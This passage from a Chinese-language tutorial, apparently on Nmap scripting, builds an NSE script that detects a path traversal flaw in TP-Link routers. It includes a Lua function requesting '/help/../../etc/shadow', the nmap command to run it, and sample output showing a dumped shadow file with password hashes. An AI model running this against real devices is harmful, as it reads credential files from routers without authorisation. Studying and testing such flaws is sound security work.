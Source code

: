     ```
    portrule = shortport.http
    ```

    定义执行规则
4.  编写函数发送路径遍历请求，判断 web 应用是否易受攻击：

    ```
    local function check_vuln(host, port)
      local evil_uri = "/help/../../etc/shadow"
      stdnse.print_debug(1, "%s:HTTP GET %s", SCRIPT_NAME, evil_uri)
      local response = http.get(host, port, evil_uri)
      if response.body and response.status==200 and response.body:match("root:") then
        stdnse.print_debug(1, "%s:Pattern 'root:' found.", SCRIPT_NAME, response.body)
        return true
      end
      return false
    end
    ```

5.  借助 Lua 捕获（`.*`：

    ```
    local _, _, rfile_content = string.find(response.body, 'SCRIPT>(.*)')
    ```

    读取并解析响应中的文件
6.  最后，使用以下命令执行脚本：

    ```
    $ nmap -p80 --script http-tplink-dir-traversal.nse <target>

    ```

易受攻击的设备将产生以下输出：

```
-- @output
-- PORT   STATE SERVICE REASON
-- 80/tcp open  http    syn-ack
-- | http-tplink-dir-traversal:
-- |   VULNERABLE:
-- |   Path traversal vulnerability in several TP-Link wireless routers
-- |     State: VULNERABLE (Exploitable)
-- |     Description:
-- |       Some TP-Link wireless routers are vulnerable to a path traversal vulnerability that allows attackers to read configurations or any other file in the device.
-- |       This vulnerability can be exploited remotely and without authentication.
-- |       Confirmed vulnerable models: WR740N, WR740ND, WR2543ND
-- |       Possibly vulnerable (Based on the same firmware): WR743ND,WR842ND,WA-901ND,WR941N,WR941ND,WR1043ND,MR3220,MR3020,WR841N.
-- |     Disclosure date: 2012-06-18
-- |     Extra information:
-- |       /etc/shadow :
-- |   
-- |   root:$1$$zdlNHiCDxYDfeF4MZL.H3/:10933:0:99999:7:::
-- |   Admin:$1$$zdlNHiCDxYDfeF4MZL.H3/:10933:0:99999:7:::
-- |   bin::10933:0:99999:7:::
-- |   daemon::10933:0:99999:7:::
-- |   adm::10933:0:99999:7:::
-- |   lp:*:10933:0:99999:7:::
-- |   sync:*:10933:0:99999:7:::
-- |   shutdown:*:10933:0:99999:7:::
-- |   halt:*:10933:0:99999:7:::
-- |   uucp:*:10933:0:99999:7:::
-- |   operator:*:10933:0:99999:7:::
-- |   nobody::10933:0:99999:7:::
-- |   ap71::10933:0:99999:7:::
```